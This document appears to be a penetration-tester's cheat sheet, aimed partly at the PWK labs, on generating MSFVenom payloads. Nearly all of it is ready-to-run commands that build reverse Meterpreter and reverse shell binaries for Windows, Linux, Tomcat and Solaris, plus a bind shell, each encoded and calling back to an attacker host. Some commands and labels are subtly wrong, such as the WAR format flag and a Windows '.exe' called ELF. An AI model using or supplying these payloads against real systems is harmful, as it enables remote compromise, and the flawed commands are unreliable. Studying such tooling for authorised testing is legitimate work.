 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems. One ting to note, is that these payloads can be used more than once, obviously. I would recommend not re-generating a payload each time you compromise a service on a target server. Use a naming convention, such as:

`OS`+`TYPE`+`PORT`.extension

For instance, a Linux ELF binary, Bind Shell, Binds to port 4567 would be, `LinBind4567.elf`. Windows ELF binary, Reverse Meterpreter, returns to port 5555 would be, `WinRevMeter5555.exe`. Keep these payloads readily available as time is of the essence. 

If you are working the Offensive Security PWK labs, make sure that you don't use Meterpreter when possible as they do not condone it and it is not allowed in the exam. Hey, if it's confusing - think about it this way, some people still buy vinyl records, I guess nostalgia and doing things by hand is their thing. 

## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Meterpreter Reverse
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
### Meterpreter Reverse
`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
### Bind Shell Port 4567
`./msfvenom --platform=linux --payload=linux/x86/shell_bind_tcp -e x86/shikata_ga_nai -b '\x00' -f elf LPORT=4567 > LinBind4567.elf`

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
